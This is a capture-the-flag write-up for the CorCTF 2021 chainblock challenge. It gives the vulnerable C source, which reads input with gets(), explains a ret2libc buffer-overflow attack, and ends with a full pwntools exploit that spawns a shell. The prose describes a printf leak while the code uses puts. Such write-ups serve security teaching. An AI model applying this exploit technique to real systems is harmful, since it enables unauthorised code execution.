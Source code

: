 # CorCTF 2021 


## BlockChain

```
 Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fe000)
    RUNPATH:  b'./'

```
We are given an a ELF binary file, its loader and libc version. We are also provided source code C :
```
#include <stdio.h>

char* name = "Techlead";
int balance = 100000000;

void verify() {
	char buf[255];
	printf("Please enter your name: ");
	gets(buf);

	if (strcmp(buf, name) != 0) {
		printf("KYC failed, wrong identity!\n");
		return;
	}

	printf("Hi %s!\n", name);
	printf("Your balance is %d chainblocks!\n", balance);
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);

	printf("      ___           ___           ___                       ___     \n");
	printf("     /\\  \\         /\\__\\         /\\  \\          ___        /\\__\\    \n");
	printf("    /::\\  \\       /:/  /        /::\\  \\        /\\  \\      /::|  |   \n");
	printf("   /:/\\:\\  \\     /:/__/        /:/\\:\\  \\       \\:\\  \\    /:|:|  |   \n");
	printf("  /:/  \\:\\  \\   /::\\  \\ ___   /::\\~\\:\\  \\      /::\\__\\  /:/|:|  |__ \n");
	printf(" /:/__/ \\:\\__\\ /:/\\:\\  /\\__\\ /:/\\:\\ \\:\\__\\  __/:/\\/__/ /:/ |:| /\\__\\\n");
	printf(" \\:\\  \\  \\/__/ \\/__\\:\\/:/  / \\/__\\:\\/:/  / /\\/:/  /    \\/__|:|/:/  /\n");
	printf("  \\:\\  \\            \\::/  /       \\::/  /  \\::/__/         |:/:/  / \n");
	printf("   \\:\\  \\           /:/  /        /:/  /    \\:\\__\\         |::/  /  \n");
	printf("    \\:\\__\\         /:/  /        /:/  /      \\/__/         /:/  /   \n");
	printf("     \\/__/         \\/__/         \\/__/                     \\/__/    \n");
	printf("      ___           ___       ___           ___           ___     \n");
	printf("     /\\  \\         /\\__\\     /\\  \\         /\\  \\         /\\__\\    \n");
	printf("    /::\\  \\       /:/  /    /::\\  \\       /::\\  \\       /:/  /    \n");
	printf("   /:/\\:\\  \\     /:/  /    /:/\\:\\  \\     /:/\\:\\  \\     /:/__/     \n");
	printf("  /::\\~\\:\\__\\   /:/  /    /:/  \\:\\  \\   /:/  \\:\\  \\   /::\\__\\____ \n");
	printf(" /:/\\:\\ \\:|__| /:/__/    /:/__/ \\:\\__\\ /:/__/ \\:\\__\\ /:/\\:::::\\__\\\n");
	printf(" \\:\\~\\:\\/:/  / \\:\\  \\    \\:\\  \\ /:/  / \\:\\  \\  \\/__/ \\/_|:|~~|~   \n");
	printf("  \\:\\ \\::/  /   \\:\\  \\    \\:\\  /:/  /   \\:\\  \\          |:|  |    \n");
	printf("   \\:\\/:/  /     \\:\\  \\    \\:\\/:/  /     \\:\\  \\         |:|  |    \n");
	printf("    \\::/__/       \\:\\__\\    \\::/  /       \\:\\__\\        |:|  |    \n");
	printf("     ~~            \\/__/     \\/__/         \\/__/         \\|__|    \n");
	printf("\n\n");
	printf("----------------------------------------------------------------------------------");
	printf("\n\n");

	printf("Welcome to Chainblock, the world's most advanced chain of blocks.\n\n");

	printf("Chainblock is a unique company that combines cutting edge cloud\n");
	printf("technologies with high tech AI powered machine learning models\n");
	printf("to create a unique chain of blocks that learns by itself!\n\n");

	printf("Chainblock is also a highly secure platform that is unhackable by design.\n");
	printf("We use advanced technologies like NX bits and anti-hacking machine learning models\n");
	printf("to ensure that your money is safe and will always be safe!\n\n");

	printf("----------------------------------------------------------------------------------");
	printf("\n\n");

	printf("For security reasons we require that you verify your identity.\n");

	verify();
}

```

Read source code and we can understand flow of this.
Since binary file has no win funtion and we provided libc file so we have to used ret2libc attack.

First thing, we have to find the RIP offset from the start of the input buffer, we can basically crash the programm with a long enough input inside gdb and check the offset. 
It is 264. (256 + 8)

Next we have to leak a libc address to defeat the ASLR, we can jump to printf@plt and pass as parameter the address of printf@got. 
Once we leaked the address we can calculate the libc base address.

After the leak we have to perform another buffer overflow, so let's jump to main and craft another ROP-chain. 
Now we just need to jump to system and pass the address of */bin/sh* as parameter to the function. We can find system funtion offset in libc file.

Sometimes the rop-chain won't work because printf and system function crash. That happens because the stack is not aligned to 16 byte, to fix this issue we can put a ret gadget as the first gadget, 
so it will pop 8 bytes from the stack and fix the alignment.

```
from pwn import * 

BIN = "./chainblock"
libc = ELF("libc.so.6")
elf = ELF(BIN)
name = b"Techlead "
pop = 0x0000000000401493 #pop rdi ; ret
ret = 0x000000000040101a

def exploit():
	payload = name + b"a"*(256-len(name)) + b"b"*8
	payload += p64(pop)
	payload += p64(elf.symbols['got.puts'])
	payload += p64(elf.symbols['plt.puts'])
	payload += p64(elf.symbols['main'])
	io.sendline(payload)
	io.recvuntil('KYC failed, wrong identity!\n')
	puts = u64((io.recv(6)+b'\x00'*2))

	libc_base = puts - libc.symbols['puts']
	print("Libc base:", hex(libc_base))
	sys_offset = libc.symbols['system']
	bin_offset = next(libc.search(b"/bin/sh"))
	sys_call = libc_base + sys_offset
	bin_call = libc_base + bin_offset

	payload = name + b"a"*(256-len(name)) + b"b"*8
	payload += p64(pop)
	payload += p64(bin_call)
	payload += p64(ret)
	payload += p64(sys_call)
	io.sendline(payload)
	io.interactive()
	

io = process(BIN)
#io = remote('pwn.be.ax',5000)
exploit()
```


